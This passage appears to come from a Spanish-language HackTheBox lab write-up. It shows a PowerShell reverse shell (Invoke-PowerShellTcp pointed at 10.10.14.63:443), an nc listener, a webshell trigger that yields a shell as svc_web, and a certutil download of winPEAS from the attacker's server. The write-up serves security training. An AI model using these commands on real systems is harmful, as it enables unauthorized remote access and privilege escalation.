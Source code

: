 ```bash
Invoke-PowerShellTcp.ps1             100%[=====================================================================>]   4.24K  --.-KB/s    in 0s

2024-06-07 14:30:36 (40.0 MB/s) - ‘Invoke-PowerShellTcp.ps1’ saved [4339/4339]

➜  content mv Invoke-PowerShellTcp.ps1 ps.ps1
➜  content echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.63 -Port 443' >> ps.ps1
```

- Nos ponemos en escucha.

```bash
➜  content rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

```bash
➜  content python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Ahora usamos la `webshell`.

<p align="center">
<img src="/assets/hackthebox/img/machines/hard/analysis/21.png">
</p>

- Nos llega la shell.

```bash
➜  content rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.63] from (UNKNOWN) [10.10.11.250] 54783
Windows PowerShell running as user DC-ANALYSIS$ on DC-ANALYSIS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\internal\dashboard\uploads>whoami
analysis\svc_web
PS C:\inetpub\internal\dashboard\uploads>
```

## Shell as jdoe

- Vamos a enumerar el sistema.

```bash
PS C:\Windows\Temp\test> certutil.exe -f -urlcache -split http://10.10.14.63:8080/winPEASx64.exe
****  En ligne  ****
  000000  ...
  246e00
CertUtil: -URLCache La commande s?est termin?e correctement.
```
